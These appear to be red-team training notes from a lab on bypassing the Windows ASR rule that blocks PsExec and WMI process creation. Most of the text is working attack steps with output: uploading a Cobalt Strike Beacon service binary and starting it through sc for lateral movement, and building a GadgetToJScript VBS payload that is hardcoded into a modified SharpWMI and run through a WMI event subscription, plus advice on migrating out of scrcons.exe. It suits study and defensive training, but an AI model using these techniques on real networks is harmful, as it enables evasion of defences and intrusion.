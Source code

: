 _"This rule blocks processes created through PsExec and WMI from running."_

PsExec from the Sysinternals Suite and WMI Process Call Create are two popular methods for lateral movement (PsExec also a useful way to get SYSTEM access from a local admin).  `RTO2\cbridges` is a local admin on WKSTN-2, so from WKSTN-1 we can try and execute commands remotely to demonstrate the restrictions.

  

## PsExec

Attempting to execute a binary via PsExec on the remote target fails.

```
C:\Users\cbridges>C:\Sysinternals\PsExec64.exe \\wkstn-2 cmd.exe

PsExec v2.32 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

PsExec could not start cmd.exe on wkstn-2:
The system cannot find the file specified.
```

  

On WKSTN-2, the following alert is raised:


![[72. Block PsExecWMI.png]]


It appears this rule is specific to the Sysinternals PsExec implementation - it does not prevent you from creating and starting arbitrary services, which makes this trivial to bypass.  Simply drop your own service binary to disk and create a service to run it.

```
beacon> cd \\wkstn-2\admin$
beacon> upload /root/beacon-svc.exe
beacon> run sc \\wkstn-2 create RandoService binPath= C:\Windows\beacon-svc.exe

[SC] CreateService SUCCESS

beacon> run sc \\wkstn-2 start RandoService

SERVICE_NAME: RandoService 
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2056
        FLAGS              : 

beacon> link wkstn-2
[+] established link to child beacon: 10.10.120.75

beacon> rm beacon-svc.exe
beacon> run sc \\wkstn-2 delete RandoService

[SC] DeleteService SUCCESS
```

This also means the automated jump command works.

![[73. Block PsExecWMI.png]]

## WMI

As with PsExec, attempting to execute a binary via `wmic /node` or Cobalt Strike's `remote-exec wmi` command is blocked.

```
beacon> run wmic /node:"wkstn-2" process call create "C:\Windows\System32\win32calc.exe"

Executing (Win32_Process)->Create()

Method execution successful.

Out Parameters:
instance of __PARAMETERS
{
	ReturnValue = 2;
};
```

  

The rule effectively prevents WmiPrvSE.exe from spawning children.


![[74. Block PsExecWMI.png]]

The way to get around this one is to use VBScript payloads via an event subscription.

This requires a number of steps:

-   Generate a payload
-   Connect to WMI
-   Create an event filter to trigger the execution (via a timer)
-   Create an [ActiveScriptEventConsumer](https://docs.microsoft.com/en-us/windows/win32/wmisdk/activescripteventconsumer), using the VBScript engine
-   Create a FilterToConsumerBinding to link the filter and consumer
-   Wait for execution
-   Delete all of the above

Luckily, [SharpWMI](https://github.com/GhostPack/SharpWMI) already has this capability built-in.  For the payload, we can use one of our C# process injection projects and GadgetToJScript with the **-w vbs** option to write this out to a .vbs file.

```
C:\Tools\GadgetToJScript>GadgetToJScript\bin\Debug\GadgetToJScript.exe -a TestAssembly\bin\Debug\TestAssembly.dll -w vbs -o C:\Users\Administrator\Desktop\wmi -b
[+]: Generating the vbs payload
[+]: First stage gadget generation done.
[+]: Loading your .NET assembly:TestAssembly\bin\Debug\TestAssembly.dll
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\wmi.vbs
```
  

There are some gotcha's from here.  SharpWMI's `script=` parameter expects to read the VBS file off disk of the machine running Beacon (not from your host), or it takes the input as raw VBS.  The `scriptb64=` parameter takes the VBS as a single base64 encoded string, but the G2JS gadget is too large to fit on the CS command line.  A solution to this, though far from ideal, is to hardcode the gadget directly into the SharpWMI assembly.

At the top of **Program.cs** you will see several **private static string** fields.  Create a new called HardcodedGadget (or something similar) and copy/paste the G2JS VBS here.

```csharp
private static string HardcodedGadget = @"<PUT YOUR VBS HERE>";
```

  

Within this file, there's also a method called **GetVBSPayload**, which returns a string.  It usually returns a VBS payload based on your script= or scriptb64= input.  But I'm going to force this method to always return the hardcoded gadget by doing something like this:

```csharp
static string GetVBSPayload(Dictionary<string, string> arguments)
{
    return HardcodedGadget;
}
```
  

Then just re-compile the assembly and execute it.

```
beacon> execute-assembly /root/tools/SharpWMI2.exe action=executevbs computername=wkstn-2 script=blah

[*] Using direct script's parameter as VBScript payload.
[*] Script will trigger after 10 and we'll wait for 12 seconds.

[*] Creating Event Subscription Debug : wkstn-2 - with interval between events: 10 secs
[*] Setting 'Debug' event filter on wkstn-2
[*] Setting 'Debug' event consumer on wkstn-2 to kill script after 12 secs
[*] Binding 'Debug' event filter and consumer on wkstn-2

[*] Waiting 10 seconds for event to trigger on wkstn-2 ...

[*] Removing 'Timer' internal timer from wkstn-2
[*] Removing FilterToConsumerBinding from wkstn-2
[*] Removing 'Debug' event filter from wkstn-2
[*] Removing 'Debug' event consumer from wkstn-2
```
  

The VBS is executed by scrcons.exe (WMI Standard Event Consumer), so if your injector performs "self-injection" (e.g. `var target = Process.GetCurrentProcess();`), the Beacon will be running inside this process.


![[75. Block PsExecWMI.png]]


  scrcons.exe will exit shortly after execution, so you have to migrate out of this process ASAP (e.g. with inject, shinject, shspawn etc).
 